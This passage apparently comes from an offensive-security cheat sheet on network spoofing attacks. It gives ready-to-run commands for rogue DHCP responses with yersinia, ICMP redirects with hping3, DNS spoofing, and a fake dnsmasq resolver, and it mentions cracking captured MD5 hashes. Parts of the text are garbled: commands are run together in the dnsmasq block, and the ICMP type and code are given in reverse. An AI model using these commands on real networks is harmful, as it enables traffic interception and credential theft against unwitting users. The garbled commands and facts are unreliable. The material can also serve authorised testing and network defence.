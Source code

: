 * **Capturing and Cracking MD5 Hashes:** Tools such as Loki and John the Ripper are used for this purpose.
* **Configuring Route Parameters:** This is done through the _Injection_ tab.
* **Setting the Compromised Key:** The key is configured under the _Connection_ tab.

### Other Generic Tools & Sources

* [**Above**](https://github.com/c4s73r/Above): Tool to scan network traffic and find vulnerabilities
* You can find some **more information about network attacks** [**here**](https://github.com/Sab0tag3d/MITM-cheatsheet).

## **Spoofing**

The attacker configures all the network parameters (GW, IP, DNS) of the new member of the network sending fake DHCP responses.

```bash
Ettercap
yersinia dhcp -attack 2 #More parameters are needed
```

### ARP Spoofing

Check the [previous section](./#arp-spoofing).

### ICMPRedirect

ICMP Redirect consist on sending an ICMP packet type 1 code 5 that indicates that the attacker is the best way to reach an IP. Then, when the victim wants to contact the IP, it will send the packet through the attacker.

```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```

### DNS Spoofing

The attacker will resolve some (or all) the domains that the victim ask for.

```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```

**Configure own DNS with dnsmasq**

```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```
